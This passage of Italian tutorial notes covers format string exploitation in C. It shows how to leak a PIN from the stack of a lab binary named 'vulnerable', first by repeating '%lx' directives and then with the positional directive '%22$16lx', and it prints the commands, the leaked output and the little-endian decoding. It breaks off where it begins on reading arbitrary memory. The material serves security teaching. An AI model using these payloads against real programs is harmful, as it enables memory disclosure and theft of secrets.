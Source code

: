 Supponiamo che il PIN venga allocato immediatamente dopo il buffer.

se riuscissimo a inserire abbastanza “`%016lx`” nel buffer in modo da leggere il contenuto dei registri e successivamente dello stack fino al raggiungimento del PIN ce l’avremmo fatta:

- il buffer è grande 128 byte, in tale buffer devo metterci le “`%016lx`”
- Il contenuto del buffer è nel sesto parametro, cioè quando si inizia a leggere lo stack
- Il primo registro conterrà l’input con le direttive, quindi per raggiungere il PIN abbiamo bisogno di consumare i successivi 5 registri per poi leggere 8 byte 16 volte (per consumare il buffer) e infine leggere altri 8 byte per il PIN:
    
    5 + 16 + 1 = 22. Abbiamo quindi bisogno di 22 “`%016lx`” per raggiungere la prima word del PIN
    
- dato che la stringa “`%016lx`” è lunga 6 byte, la stringa totale sarà lunga 22*6 = 132 byte che è maggiore dei 128 byte che il nostro buffer ci permette di inserire

Quindi non riusciamo a raggiungere la stringa.

### Soluzione 1

Al posto di usare “`%016lx`” usiamo “`%lx`”, dato che la nuova stringa è lunga 3 byte la stringa totale sarà lunga 22*3 = 66 byte che ci sta dentro il buffer.

Eseguendo l’attacco otteniamo:

```c
python3 -c 'print(".%lx"*22)' | ./vulnerable
What is your name? Hello .6c6c6548.0.206f6c6c.0.7fffe46682b0.786c252e786c252e.786c252e786c252e.786c252e786c252e.786c252e786c252e.786c252e786c252e.786c252e786c252e.786c252e786c252e.786c252e786c252e.786c252e786c252e.786c252e786c252e.786c252e786c252e.a.0.0.0.0.37333331
```

Gli ultimi byte (`37333331`) sono la password: la possiamo convertire da esadecimale a testo ASCII (`7331`) e poi siccome la rappresentazione è in *little endian* dobbiamo invertire l’ordine dei caratteri (`1337`)

### Soluzione 2

Nelle format string si può specificare il parametro da utilizzare con la seguente sintassi:

`%6$016lx`, dove con `6$` indichiamo **l’indice dell’argomento** da utilizzare (che parte da `0`), in questo caso vogliamo che questa direttiva utilizzi il settimo argomento (`6$`)  passato alla `printf`, cioè il primo parametro che sta nello stack.

```c
printf("%6$d", 1, 2, 3, 4, 5, 6);  //=> 6
```

Se usiamo, nella direttiva, l’argomento con indice 22 otteniamo il PIN

```bash
python3 -c 'print("%22$16lx")' | ./vulnerable
What is your name? Hello 37333331
```

## Accesso a locazioni arbitrarie

Quando il buffer è salvato nello stack è possibile dumpare ogni locazione in memoria, l’idea è la seguente:

